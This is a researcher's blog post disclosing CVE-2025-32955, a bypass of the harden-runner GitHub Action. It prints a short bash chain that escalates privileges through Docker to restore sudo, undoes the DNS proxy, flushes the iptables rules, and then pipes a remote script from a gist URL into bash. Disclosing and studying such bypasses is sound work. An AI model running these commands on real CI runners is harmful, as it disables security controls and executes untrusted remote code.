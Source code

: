 ```yaml
---
layout: post
title:  "Is harden-runner really securing your GitHub workflows?"
date:   2025-04-23 14:39:49 +0000
categories: github-actions-security
---
```


What is the best way for a security guy to start a new blog? Probably sharing the first CVE that I found! 

I already published a blog post [here](https://sysdig.com/blog/security-mechanism-bypass-in-harden-runner-github-action/) about the latest [CVE-2025-32955](https://nvd.nist.gov/vuln/detail/CVE-2025-32955) vulnerability, but I wanted to add some more thoughts about it in my personal blog to just keep record of it and give more context.

During the last months I spent some time instructing myself on CI/CD security, especially on GitHub Actions, since I always loved to work in public, open-source repositories. While working on a project to use [Falco](https://falco.org) to gain visibility on GitHub workflows (at the end of the day, GitHub-hosted runners are just Linux machines), I started taking a look around to see how other projects/companies were addressing the problem. 

During this investigation, I stumbled upon [StepSecurity harden-runner](https://github.com/step-security/harden-runner). This is the most widespread product I found, it's used in a lot of open-source repositories and important projects. It has to be said that it really helped finding interesting real world attacks, especially thanks to their features allowing to audit or even block egress traffic using an [agent](https://github.com/step-security/agent) written in Go -- but probably the way these kind of solutions work isn't enough, since it turned out that a more motivated attacker can circumvent and turn off any security control in place. I talked about this with [Adnan Khan](https://adnanthekhan.com/), one of the best security researchers in this domain, and he confirmed my doubts. This led me to try to find an actual way to prove my thesis.

The main problem with these tools is that their security model is fundamentally broken. In a GitHub Actions environment, attackers can and will gain remote code execution in many subtle ways. Think about projects like [Living Off the Pipeline](https://boostsecurityio.github.io/lotp/) and check how many ways are out there to run untrusted code, following an "innocent" repo checkout on a PR or a workflow injection. 

So, now that we know attackers will execute their code, what is actually differentiating the code run by them and the one run by harden-runner? Well, just nothing. Will the software that is meant to monitor and secure your workflow be safe from potential tampering? Nope, of course.

You can read the details about the vulnerable code in the [Sysdig blog post](https://sysdig.com/blog/security-mechanism-bypass-in-harden-runner-github-action/), but basically the main features of the agent (that is auditing or blocking egress traffic both at the DNS and IP level), was implemented by:
1. Spawning a local DNS proxy, used to monitor/block all DNS queries. The `systemd-resolve` service is stopped, reconfigured to use the proxy, and the old configuration backed up in `/tmp`.
2. Creating simple iptables rules, both for host and containers.

To protect the agent inside the runner VM, StepSecurity implemented a feature called `disable-sudo`. By default, the `runner` Linux user inside the VM can run any arbitrary command via `sudo` thanks to the configuration in `/etc/sudoers.d/runner` file. The `disable-sudo` policy just limits itself to move the sudoers file for the user in `/tmp`, making it impossible to run `sudo` commands again. So everything is okay right? Nope! We just needed to find a way to escalate privileges in a different ways. How? 

1. Applying my knowledge about GHA. If you are a user of this product, you know that GitHub actions can be of three types: composite, JavaScript and Docker actions.
2. Remebering a good old friend, the [Docker GTFObin](https://gtfobins.github.io/gtfobins/docker/). 

Being part of the Docker group means being root, and of course since the runner must be able to run containers (Docker actions), so we must be inside that group. A quick execution of `id` inside the runner shell confirmed that we are indeed part of it.

So, at the end of the day it all boils down to:

```bash
# Restore sudo access via Docker privilege escalation, mounting the host filesystem 
# and operating as root inside it
docker run \
    --rm --privileged \
    -v /:/host \
    ubuntu bash -c "cp /host/tmp/runner /host/etc/sudoers.d/runner"

# Restore old DNS systemd configuration, disabling harden-runner proxy
sudo systemctl stop systemd-resolved
sudo cp /tmp/resolved.conf /etc/systemd/resolved.conf
sudo systemctl restart systemd-resolved

# Remove harden runner iptables rules
sudo iptables -t filter -F OUTPUT
sudo iptables -t filter -F DOCKER-USER

# Do mess undisturbed
curl -sSfL <GIST_URL> | bash
```

The mitigation that StepSecurity proposed is described [here](https://www.stepsecurity.io/blog/evolving-harden-runners-disable-sudo-policy-for-improved-runner-security), but basically they evolved the `disable-sudo` feature to `disable-sudo-and-containers`, disinstalling Docker altogether, so that the privilege escaltion cannot be performed anymore. I still believe that there might be some more subtle ways to gain root inside the runner, and I will continue to research about it. 

Of course disinstalling Docker is just a mitigation and it's something that is limiting the features offered by GHA. I hope this CVE will serve to lead the security community to think of better ways to protect agents from tampering in such environments.

Thanks for reading, hope you enjoyed!
